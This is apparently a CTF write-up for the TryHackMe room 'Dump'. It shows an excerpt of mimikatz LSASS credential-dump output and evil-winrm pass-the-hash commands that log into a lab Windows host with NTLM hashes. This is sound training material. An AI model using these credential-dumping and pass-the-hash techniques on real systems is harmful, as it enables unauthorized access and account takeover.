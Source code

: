 ```yaml
---
title: TryHackMe Dump Hackfinity Battle Write-Up Walk Through
date: 2025-03-25 06:00:00 +0200
categories: [TryHackMe, CTF,Hackfinity Battle, TryHackMe Write Up]
tags: [dump, evil-winrm, icacls, LSASS, mimikatz, Hackfinity, ctf]
description: "We breached Cipher's machine, uncovering encrypted plans and compromised systems, but he detected us and locked us out. Just before losing access, we dumped the LSASS process, capturing critical credentials. Now, with the dump in hand, we have one last chance to infiltrate his network and stop his next attack before it’s too late."
comments: false
media_subpath: /assets/img/
image:
  path: tryhackme-dump.png
  alt: TryHackMe Dump Hackfinity Battle
---
```


# Exploring TryHackMe's Dump: mimikatz LSASS dump

We tackle the TryHackMe room `Dump` from the Hackfinity Battle Encore CTF. We will analyses a given dump file contain `mimikatz LSASS dump`, extracted all relevant users with their `NTLM hashes`, then use `evil-winrm` to connect to the windows machine. We need to find which user has full access to administrator Desktop so we can read the `flag.txt` file

**[You can follow YouTube video walk through here](https://youtu.be/I92EmAhoEc0)**

## LSASS dump

We been given full mimikatz LSASS dump, below part of it:

```console
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 5056238 (00000000:004d26ee)
Session           : Interactive from 9
User Name         : DWM-9
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/3/2025 8:48:25 PM
SID               : S-1-5-90-0-9
        msv :
        tspkg :
        wdigest :
         * Username : DUMP$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

```
## evil-winrm / NTLM hash

Our next step is try to connect to windows machine using each user we have with `evil-winrm` and their corresponding `NTLM hash`

```console
evil-winrm -i 10.10.144.106 -u Administrator -H 2dfe3378335d43f9764e581b856a662a
evil-winrm -i 10.10.144.106 -u ByteReaper -H 43034346035d7a24b1eaa1c82acaef3e

```

We will find one of user has special permission to the `Administrator` files.

# Want the Full Walkthrough?

Check out my **[full video walkthrough](https://youtu.be/I92EmAhoEc0)** on my YouTube channel for step-by-step guidance:

**[You can follow YouTube video walk through here](https://youtu.be/I92EmAhoEc0)**

<img src="tryhackme-dump-youtube.png"  alt="TryHackMe Dump YouTube Video Walk through" >


